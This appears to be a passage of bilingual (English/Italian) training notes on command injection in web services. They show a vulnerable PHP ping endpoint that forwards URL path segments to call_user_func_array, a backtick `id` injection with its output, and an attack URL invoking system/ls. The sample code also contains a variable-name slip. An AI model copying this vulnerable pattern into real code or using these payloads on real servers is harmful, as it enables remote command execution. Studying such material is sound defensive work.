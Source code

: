 ```shell
python3 soapSpoofingClient.py
```

# Command injection

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Il servizio potrebbe avere questo codice

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

e risponde a richieste del tipo `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`
Se proviamo a fare `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333` riceviamo un errore (Only 1-4 packets!)
La funzione `escapeshellarg()` fa l'escaping dell'url fornito, altrimenti sarebbe possibile fare una cosa cosi

```shell
$ ping google.com`id`
ping: groups=1001(pingflood),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),115(scanner),138(wireshark),141(kaboxer),142(vboxsf): Name or service not known
```

La vulnerabilita' sta nella funzione `call_user_func_array()`. Is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows `http://<TARGET IP>:3003/ping-server.php/system/ls`.
